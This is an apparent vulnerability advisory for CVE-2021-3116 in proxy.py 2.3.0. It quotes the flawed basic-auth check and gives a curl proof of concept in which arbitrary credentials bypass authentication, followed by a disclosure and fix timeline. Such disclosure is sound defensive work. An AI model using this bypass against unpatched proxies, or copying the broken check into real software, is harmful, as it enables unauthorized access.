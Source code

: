 ```yaml
---
title: '[CVE-2021-3116] proxy.py 2.3.0 — Broken basic authentication'
description: A logic bug enables a trivial bypass of the basic authentication mechanism of the proxy.
tags: [CVE, proxy.py, authentication]
advisory:
  discovered: 2021-01-09
  product: '[proxy.py](https://github.com/abhinavsingh/proxy.py)'
  versions:
    - 2.3.0
  cve: CVE-2021-3116
---
```


## Abstract

[proxy.py](https://github.com/abhinavsingh/proxy.py) is a feature-rich HTTP proxy server written in Python. Among the other things it allows to spawn a proxy server that enforces [HTTP basic access authentication][basic-auth].

A recent [refactoring][] introduced a logic bug that allows to bypass the proxy authentication.

[refactoring]: https://github.com/abhinavsingh/proxy.py/commit/a48319e32d3c60cb919ef70706b3a3750406f837
[basic-auth]: https://en.wikipedia.org/wiki/Basic_access_authentication

## Details

The vulnerable code is located in [proxy/http/proxy/auth.py][bug]:

```python
def before_upstream_connection(
        self, request: HttpParser) -> Optional[HttpParser]:
    if self.flags.auth_code:
        if b'proxy-authorization' not in request.headers:
            raise ProxyAuthenticationFailed()
        parts = request.headers[b'proxy-authorization'][1].split()
        if len(parts) != 2 \
                and parts[0].lower() != b'basic' \
                and parts[1] != self.flags.auth_code:
            raise ProxyAuthenticationFailed()
    return request
```

The `and` operators are wrong here, and it is enough to set one of its operands to `False` to skip the challenge and bypass the authentication. A valid `Proxy-Authorization` header (e.g., for `user:password`) is in the form:

```
Proxy-Authorization: Basic dXNlcjpwYXNzd29yZA==
```

So `len(parts)` is `2`, thus any valid header with any credentials works.

[bug]: https://github.com/abhinavsingh/proxy.py/blob/f04845cd645e642b92a40ea5650fd805f4f9ad04/proxy/http/proxy/auth.py#L31-L41

## Proof of concept

Start `proxy.py` like:

```console
$ proxy --basic-auth user:password
2021-01-10 19:25:31,183 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.AuthPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.HttpProxyPlugin
2021-01-10 19:25:31,184 - pid:73304 [I] listen:113 - Listening on ::1:8899
2021-01-10 19:25:31,215 - pid:73304 [I] start_workers:136 - Started 8 workers
```

Trying to use the proxy without credentials correctly yields a proxy authentication error:

```console
$ curl -I -x localhost:8899 http://example.com
HTTP/1.1 407 Proxy Authentication Required
Proxy-agent: proxy.py v2.3.0
Proxy-Authenticate: Basic
Connection: close
Content-Length: 29
```

But specifying any credentials (e.g., `x:x`) allows the request to go through:

```console
$ curl -I -x x:x@localhost:8899 http://example.com
HTTP/1.1 200 OK
Content-Encoding: gzip
Accept-Ranges: bytes
Age: 276321
Cache-Control: max-age=604800
Content-Type: text/html; charset=UTF-8
Date: Sun, 10 Jan 2021 18:31:28 GMT
Etag: "3147526947"
Expires: Sun, 17 Jan 2021 18:31:28 GMT
Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
Server: ECS (bsa/EB23)
X-Cache: HIT
Content-Length: 648
```

## Timeline

2021-01-09
: Disclosed privately to the developers as suggested in their [SECURITY.md][].

2021-01-10
: The developers implement the [fix][] and release version 2.3.1

2021-01-11
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

[fix]: https://github.com/abhinavsingh/proxy.py/pull/482/commits/9b00093288237f5073c403f2c4f62acfdfa8ed46
[SECURITY.md]: https://github.com/abhinavsingh/proxy.py/blob/develop/SECURITY.md
